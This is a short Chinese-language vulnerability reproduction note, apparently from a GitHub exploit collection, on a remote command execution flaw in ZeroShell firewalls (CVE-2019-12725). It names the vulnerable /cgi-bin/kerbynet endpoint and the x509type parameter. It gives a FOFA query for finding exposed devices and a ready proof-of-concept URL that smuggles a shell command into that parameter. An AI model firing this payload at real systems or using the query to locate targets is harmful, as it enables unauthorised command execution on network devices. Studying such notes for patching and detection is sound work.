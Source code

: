 # ZeroShell 3.9.0 远程命令执行漏洞 CVE-2019-12725

## 漏洞描述

ZeroShell 3.9.0 存在命令执行漏洞，/cgi-bin/kerbynet 页面，x509type 参数过滤不严格，导致攻击者可执行任意命令

## 漏洞影响

```
ZeroShell < 3.9.0
```

## FOFA

```
app="Zeroshell-防火墙"
```

## 漏洞复现

登录页面如下



![](./images/202202162258497.png)

验证的POC为

```plain
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type=%27%0Aid%0A%27
```

![](./images/202202162258777.png)